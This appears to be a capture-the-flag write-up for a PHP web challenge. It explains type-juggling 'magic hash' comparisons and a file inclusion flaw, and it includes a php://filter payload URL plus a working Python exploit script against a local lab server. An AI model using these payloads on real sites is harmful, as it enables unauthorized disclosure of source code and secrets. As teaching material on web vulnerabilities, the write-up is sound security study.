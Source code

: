 # Not a collision

## Description
Because I'm a web guy, I cannot do crypto. Please help me recover the flag.

## Solution
To get the flag we can use magic hashes (https://github.com/spaze/hashes). In fact, two strings whose hash starts with `0e...` followed by random numbers, if compared with a double equals `==,` will pass the if statement.
```php
if ("0e67523434" == "0e87923444"){
    echo "collision";
}
```
This happens because the double equals `==` forces the two strings to be treated as numbers in scientific notation, and both are $0*10^{n}$, that is, $0$.

We also see that a variable `$home` is inserted in `include` which can be `home.php` by default or any resource that we insert in page. This is clearly a file inclusion, more precisely to get the flag we need a file disclosure. Thanks to the php wrappers we can get the flag:
```
http://127.0.0.1:5001/?page=php://filter/convert.base64-encode/resource=home.php
```

## Exploit
```py
from requests import post
from base64 import b64decode
from bs4 import BeautifulSoup

url = "http://127.0.0.1:5001/"

# you can find all collisions here: https://github.com/spaze/hashes

data = {
    "input1": "0e215962017",
    "collision": "click"
}

resp = post(url + "?page=php://filter/convert.base64-encode/resource=home.php", data=data)
source_b64 = BeautifulSoup(resp.text, "html.parser").find_all("p")[-1].get_text().strip()

source = b64decode(source_b64).decode()
print(source)
```
